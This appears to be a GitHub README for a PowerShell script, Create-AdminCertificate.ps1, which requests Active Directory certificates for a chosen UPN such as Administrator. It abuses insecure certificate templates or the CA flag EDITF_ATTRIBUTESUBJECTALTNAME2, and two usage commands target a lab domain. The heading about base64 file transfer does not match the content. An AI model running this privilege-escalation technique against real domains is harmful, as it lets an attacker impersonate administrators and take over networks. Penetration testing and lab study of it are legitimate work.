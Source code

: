 # File transfer via base64 conversion and clipboard copy

## Create-AdminCertificate.ps1
The script needs to be run frmo a domain member and a domain user
It tries to enroll for certificates specifying a upn of your chosing
### Usage:
Enroll certificates using all insecure templates
```powershell
. .\Create-AdminCertificate.ps1 -desiredUPN Administrator@ad.seblab.at -TryAllTemplates -InsecureTemplatesOnly
```
Enroll certificates using a specific template. We will try to enroll even if the template does not allow for a manual subject name.
We still test as the CA might be configured with +editf_attributesubjectaltname2 and lets us add the upn anyways
```powershell
. .\Create-AdminCertificate.ps1 -desiredUPN Administrator@ad.seblab.at -TemplateName User
```



